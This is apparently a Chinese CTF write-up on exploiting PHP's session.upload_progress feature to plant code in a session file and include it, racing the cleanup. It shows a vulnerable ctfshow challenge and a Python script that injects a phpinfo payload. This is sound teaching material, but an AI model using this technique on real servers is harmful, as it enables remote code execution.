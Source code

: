 ![1](https://the0n3.top/medias/session-include/2.png)

关键点：

- session文件默认用户可以自定义
- 文件上传时默认生成session，记录详细信息和跟踪上传进度
- session.upload_progress.cleanup配置项默认打开，**伪造的文件上传后，会清空session**

::: warning
通过伪造文件上传这一过程，让服务器生成session文件，session文件里会储存一些文件信息，例如`文件名，文件内容，session保存位置`等信息的序列化格式，在这里，文件内容是可以伪造的，文件内容就是`PHP_SESSION_UPLOAD_PROGRESS`上传进度的值。因为用户可以自定义session，所以上传进度变成可控的了，在下面的脚本中也会体现出来。
:::


## QA

![QA](https://the0n3.top/medias/session-include/qa.png)

这里提到两个重点

- session.use_strict_mode默认值为0。此时用户是可以自己定义Session ID的。比如，我们在Cookie里设置PHPSESSID=TGAO，PHP将会在服务器上创建一个文件：/tmp/sess_TGAO”

- 默认配置session.upload_progress.cleanup = on导致文件上传后，session文件内容立即清空，利用竞争在session文件内容清空前进行包含利用

## 测试

题目地址[ctfshow easy_include](https://ctf.show/challenges#easy_include-4260)

```php
<?php

function waf($path){
    $path = str_replace(".","",$path);
    return preg_match("/^[a-z]+/",$path);
}

if(waf($_POST[1])){
    include "file://".$_POST[1];
}
```

通过伪造”文件上传“创建session脚本

```python
import requests
# 如果题目链接是https，换成http
# url="https://642a817d-1d1a-4f22-aded-f796560bdd17.challenge.ctf.show/"
url="http://642a817d-1d1a-4f22-aded-f796560bdd17.challenge.ctf.show/"
sessionid = 'ctfshow'

data = {
    'PHP_SESSION_UPLOAD_PROGRESS': '<?php phpinfo();?>',
    '1': 'localhost/tmp/sess_'+sessionid,
    }
 
file = {
    'file': sessionid
}
cookies = {
    'PHPSESSID': sessionid
}

response = requests.post(url=url,data=data,files=file,cookies=cookies)
print(response.text)
```
